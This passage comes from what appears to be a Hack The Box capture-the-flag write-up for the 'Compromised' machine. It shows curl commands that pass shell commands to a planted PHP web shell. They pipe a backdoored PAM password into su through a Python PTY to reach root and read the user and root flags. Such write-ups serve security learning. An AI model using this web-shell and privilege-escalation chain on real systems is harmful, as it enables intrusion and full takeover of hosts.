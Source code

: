     
    
    root@kali# curl -G http://10.10.10.207/shop/admin/../vqmod/xml/SVR49.php --data-urlencode "c=(sleep 1; echo zlke~U3Env82m2-) | python3 -c \"import pty;pty.spawn(['/bin/su','-c','id']);\""
    Password: 
    uid=0(root) gid=0(root) groups=0(root)
    

The trick here is to use `sleep` to allow the Python PTY time to start, and
then to send the `su` password (that is accepted because of the backdoored PAM
module) into that PTY with the command. Both flags can be read from here:

    
    
    root@kali# curl -G http://10.10.10.207/shop/admin/../vqmod/xml/SVR49.php --data-urlencode "c=(sleep 1; echo zlke~U3Env82m2-) | python3 -c \"import pty;pty.spawn(['/bin/su','-c','cat /home/*/user.txt /root/root.txt']);\""
    Password: 
    46dbea70************************
    77c16789************************
    

[](/2021/01/23/htb-compromised.html)

